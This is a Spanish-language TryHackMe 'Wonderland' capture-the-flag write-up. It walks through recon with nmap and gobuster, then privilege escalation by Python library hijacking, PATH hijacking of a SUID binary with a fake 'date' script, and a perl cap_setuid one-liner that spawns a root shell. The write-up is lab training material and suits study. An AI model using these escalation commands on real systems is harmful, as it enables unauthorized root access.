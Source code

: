 ```yaml
---
layout: single
title: Wonderland - TryHackMe
excerpt: " This was an easy Linux machine that involved performing content discovery against a web application to identify the SSH password of a user to obtain initial access and exploit various vulnerable Linux binary to escalate privileges to root. "
date: 2022-10-25
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-wonderland/wonderland.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:  
  - python
  - path
  - hijacking
  - suid
  - capabilities
---
```


This was an easy Linux machine that involved performing content discovery against a web application to identify the SSH password of a user to obtain initial access and exploit various vulnerable Linux binary to escalate privileges to root.

# Summary
- IP: 10.129.135.230
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Golang net/http server

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

```bash
$gobuster dir -u 10.10.152.138 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- Encontramos el directorio "/r" entramos y volvermos a buscar directorios con gobuster:

```bash
$gobuster dir -u 10.10.152.138/r -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- Encontramos el directorio "/r/a", así buscamos directorios hasta llegar a "/r/a/b/b/i/t" y aquí, analizando el código fuente podemos encontrar una credencial para el usuario "alice", accedemos por SSH:

- Vemos permisos de sudoers, nos arroja lo siguiente "(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py" es decir, podemos ejecutar dicha script como el usuario "rabbit".

- Analizamos la script en python encontrada, nos damos cuenta que no podemos modificarlo; analizando el código vemos que importa la librería "random", esto podemos aprovecharlo creando un archivo "random.py" en el directorio actual el cual contenga el código para ejecutar una bash como el usuario propietario de la script:

```bash
nano random

import os
os.system("/bin/bash")
```

- Ahora ejecutamos la script como el usuario "rabbit" y pivotamos de usuario:

```bash
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

- Analizamos el directorio "/home/rabbit" y nos encontramos un binario de linux x64, lo analizamos con strings (si es necesario descargarlo en la máquina atacante para poder analizarlo):

```bash
strings teaParty
```

- En una parte del binario vemos lo siguiente:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

- Es decir, está llamando a "date" usando ruta relativa, a diferencia de "echo" en la cual si está utilizando la ruta absoluta, esto podemos explotarlo con PATH Hijacking:

```bash
touch /tmp/date
chmod +x /tmp/date
nano /tmp/date
```

```
#!/bin/bash
/bin/bash

```

```bash
export PATH=/tmp:$PATH
```

- (El binario tiene permisos SUID, sin embargo analizando los permisos vemos que como "rabbit" solo podemos ejecutarlo).

- Ahora ejecutamos el binario y se desplegará una bash como el usuario "hatter".

- En el directorio "/home/hatter" encontramos un password, lo usamos para entrar por SSH como el usuario "hatter" para tener una bash completamente funcional:

- Buscamos capabilities y encontramos el siguiente binario:

```bash
/usr/bin/perl = cap_setuid+ep
```

- Hacemos una búsqueda en gtfobins y encontramos el siguiente comando para poder escalar privilegios aprovechando las capabilities del binario "perl":

```bash
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

- Ejecutamos el comando y accedemos como root, vemos las flags tanto como de user y de root.
